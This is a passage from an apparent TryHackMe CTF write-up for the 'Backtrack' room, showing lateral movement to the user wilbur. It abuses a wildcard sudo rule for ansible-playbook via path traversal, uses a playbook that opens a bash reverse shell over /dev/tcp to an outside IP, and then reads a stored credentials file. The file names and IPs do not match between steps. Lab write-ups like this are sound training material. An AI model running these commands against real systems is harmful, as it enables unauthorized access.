 ## Flag 2
### Shell as Wilbur
Checking the sudo privileges, I found out that this user can run `ansible-playbook /opt/test_playbooks/*.yml` as the user `wilbur`.

```console
tomcat@Backtrack:~$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

Using wildcards (\*) in sudo rights is always risky. In this case, we can exploit this by doing something like this:

```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/evil.yml
``` 

It fits perfectly to the theme of the room.

Looking for ansible reverse shells, I found this.

```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
```

Let's save it to `/tmp/evil.yml` and run it with ansible.
```console
tomcat@Backtrack:~$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/suspicious_ports.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
....
```
```console
m3ga@kali:~/tryhackme/Backtrack$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.43.6] 33124
wilbur@Backtrack:/tmp$ id
id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
```

Perfect, we got a shell as `wilbur`.

Wilbur's credentials are stored in the file `.just_in_case.txt`. This was a nice checkpoint since the machine had to be restarted multiple times, It helped to get back to where I was quicker. 

```console
wilbur@Backtrack:~$ cat .just_in_case.txt 
in case i forget :

wilbur:[REDACTED]
```
